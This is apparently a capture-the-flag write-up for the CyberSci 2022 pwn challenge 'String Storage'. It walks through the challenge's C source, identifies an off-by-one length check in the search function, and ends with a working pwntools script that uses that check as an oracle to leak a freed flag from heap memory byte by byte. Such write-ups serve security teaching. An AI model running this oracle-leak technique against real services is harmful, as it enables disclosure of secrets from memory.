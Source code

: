 ```yaml
---
title: CyberSci 2022 - pwn - String Storage
slug: string-storage
published: 2022-11-12
author: kako57
description: Abusing an off-by-one error in a search query to extract dereferenced data
---
```


## About the challenge

[Link to provided source code](/files/string-storage/main.c)

This challenge is the only pwn challenge in CyberSci 2022 and is worth 300 points.

For this challenge, we were only provided with the source code.
An instance of the program is spawned when we connect to the given port during the CTF.

---

## Initial Exploration

Since we were not given a binary for the challenge,
we can assume that the expected exploit should not require any
specific kind of memory corruption.

Looking at `main`, we see a global buffer being allocated, and some multiple calls to `add_entry`.
We also see a conditional addition and removal of `CTFKEY`.

```c
// main program body
int main() {
    stringArea = malloc(MAXENTRYSIZE * 16);

    add_entry("Test entry one\n");
    add_entry("Test entry two\n");
    add_entry("Test entry three\n");
    add_entry("Yet another test entry here!\n");

#ifdef PREPPUZZLE
    // add_entry("TEST\n");
    add_entry(CTFKEY);
    remove_entry(CTFKEY);

#endif
    
    while(1){
        process_user_input();
    }

    return 0;
}
```

`add_entry` will add the string in the next available and large enough area in `stringArea`

```c
//add a string entry, places it in the next large enough slot in our string buffer
int add_entry(char *entryString)
{
    debug_printf("adding %s \n", entryString);
    int string_space_needed = strlen(entryString) - 1;
    // if the list is empty, just make a new entry at the beginning
    if(entry_list_head == NULL){
        entry_list_head = create_entry(entryString, stringArea, string_space_needed);
    }
    //otherwise go through the items
    //if the item is the first, check if there is a gap big enough infront 
    //then check if there is a gap in between
    else{
        
        struct entry *current = entry_list_head;

        char *last_string_start = current->entry_string;
        char *last_string_end = last_string_start + current->entry_size;

        
        while(current->next !=NULL){
            debug_printf("element\n");
            current = current->next;
            last_string_start = current->entry_string;
            last_string_end = last_string_start + current->entry_size;
        }
        //if we are at end of list, just make a new entry at the end
        current->next = create_entry(entryString, last_string_end, string_space_needed);
    }
}
```

`create_entry` simply places the string in the indicated area in the buffer.

```c
//helper function to make a new entry
entry * create_entry(char * entry_string, char * string_location, int string_len){
    entry *new_entry = malloc(sizeof(entry));
    if(!new_entry){
        exit(-1);
    }
    new_entry->entry_string = string_location;
    new_entry->entry_size = string_len;
    strncpy(new_entry->entry_string, entry_string, string_len);
    new_entry->next = NULL;
    return new_entry;
}
```

The `remove_entry` function can be used to "delete" an entry.
What it actually does is it removes all references to the first entry
that matches with `string`, marking the area as free.

```c
//remove an entry that matches the string
int remove_entry(char *string){
    entry *current = entry_list_head;
    entry *previous = current;
    while(current != NULL){
        int string_len = strlen(string) - 1;
        //first check if strings are same length
        if(string_len == current->entry_size){
            //DEBUG
            debug_printf("same len \n");
            if (strncmp(string, current->entry_string, current->entry_size) ==0)
            {
                printf("found match\n");
                previous->next = current->next;
                if(current == entry_list_head){
                    entry_list_head = current->next;
                }
                free(current);
                return 1;
            }
        }
        //move along
        previous = current;
        current = current->next;
    }
    printf("no match found\n");
}
```

The critical part of the program is `search_entries`, as it was noted to be broken.
Notice that instead of looking for entries that match the string,
it doesn't work because `entry_len` is defined to be one more than the current entry size.
This results in the program checking one extra byte when searching for entries.
So, if we were to search for an entry that we know exists, `search_entry`
will not find a match.

```c
// loop through all the entries and print if there are any matches
//DEVELOLPER NOTE: this seems broken.....
int search_entries(char *string){
    entry *current = entry_list_head;
    int in_len = strlen(string) -1;
    while (current != NULL)
    {
        //check that the srtings are the same length
        int entry_len = current->entry_size + 1; 
        if(in_len == entry_len){
            debug_printf("matching len (%d,%d)   \n",in_len,entry_len);
            if (strncmp(string, current->entry_string, entry_len) == 0)
            {
                printf("found match\n");
                return 1;
            }
        }
        //move along
        current = current->next;
    }
    printf("no match found\n");
    return 0;
}
```
Because of the broken `search_entry` function, we would need to be able to know what the next character
is in `stringArea` after the entry we're searching.

## Strategy

In a way, `search_entry` is an oracle to determining the contents of `CTFKEY`.
Since we know the entry before `CTFKEY`,
we can use that entry as a search query string, guess the first character of `CTFKEY`,
add that to our search query, and see if we get a match or not.

Once we figured out the first character of `CTFKEY` we can extend our search query string
to guess for the second character. To do that, we will remove the entry before `CTFKEY`,
then add it again with the first character of `CTFKEY`.
That way, we can extend our search query string and `search_string` would peek for the second character.

We would repeat the process of brute-force searching, removal and addition until we reveal the whole flag.

## Exploit code

```py
from pwn import *
from string import printable

attack_remote = False

if attack_remote:
    p = remote('10.0.2.43', 10001)
else:
    elf = ELF('./main')
    p = elf.process()

search_payload = b'Yet another test entry here!'

while True:
    guess_bytes = [bytes(c, 'utf-8') for c in printable]
    found_valid_byte = False
    for guess in guess_bytes:
        p.sendline(b'search')
        p.recvuntil(b'search for?\n')
        print('payload: %s' % (search_payload + guess))
        p.sendline(search_payload + guess)
        result = p.recvuntil(b'or search :\n')
        if b"found match" in result:
            p.sendline(b'remove')
            p.sendline(search_payload)
            p.recvuntil(b'or search :\n')
            search_payload = search_payload + guess
            p.sendline(b'add')
            p.sendline(search_payload)
            p.recvuntil(b'or search :\n')
            found_valid_byte = True
            break
    # if we didn't find any more valid bytes, just quit
    if not found_valid_byte:
        break

print(search_payload[28:])
```
